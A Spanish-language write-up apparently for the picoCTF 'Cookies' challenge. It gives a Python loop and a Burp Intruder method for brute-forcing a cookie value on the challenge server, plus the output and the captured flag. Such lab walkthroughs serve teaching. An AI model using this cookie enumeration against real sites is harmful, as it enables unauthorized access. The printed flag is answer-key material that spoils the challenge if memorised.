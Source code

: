 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
## Solución

#### Forma 1

usando el siguente codigo usamos la cookie de la pagina y generamos 30 cookies hasta que nos dira la bandera con un ciclo for de python.

```python
mport requests
import re

url = "http://mercury.picoctf.net:29649/"
for i in range(20):
        cookie = {'name':'{}'.format(i)}
        r = requests.get(url, cookies=cookie)
        if 'pico' in r.text:
                flag = re.findall('picoCTF{.*?}',r.text)[0]
                print(flag)
```

lo que tuvimos de resultado.

```
┌──(diego㉿Maquina-deGuerra)-[~]
└─$ python3 hack.py 
^CException ignored in: <finalize object at 0x7fb436080f00; dead>
Traceback (most recent call last):
  File "/usr/lib/python3.13/weakref.py", line 590, in __call__
    return info.func(*info.args, **(info.kwargs or {}))
  File "/usr/lib/python3/dist-packages/urllib3/connectionpool.py", line 1176, in _close_pool_connections
    conn.close()
  File "/usr/lib/python3/dist-packages/urllib3/connection.py", line 322, in close
    super().close()
  File "/usr/lib/python3.13/http/client.py", line 1022, in close
    sock.close()   # close it manually... there may be other refs
  File "/usr/lib/python3.13/socket.py", line 505, in close
    self._real_close()
  File "/usr/lib/python3.13/socket.py", line 499, in _real_close
    _ss.close(self)
KeyboardInterrupt: 
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

```

#### Forma 2
usamos la herramienta burp y hacemos un proxy en la pagina web,lo interceptamos y recargamos la pagina para que nos muetsre un metodo GET
![[Pasted image 20250923233822.png]]
y al seleccionarlo lo mandamos al intruder para hacer un ataque con el nombre de la cookie.
![[Pasted image 20250923234029.png]]
revisamos los resultados y en la respuesta usamos el filtrador de abajo con la palabra "picoCTF{}" 
y asi tambien se puede encontrar

## Referencias
python requests: [https://www.w3schools.com/python/module_requests.asp](https://www.w3schools.com/python/module_requests.asp "https://www.w3schools.com/python/module_requests.asp")
curl --> para cargar datos o enviar datos a una pagina web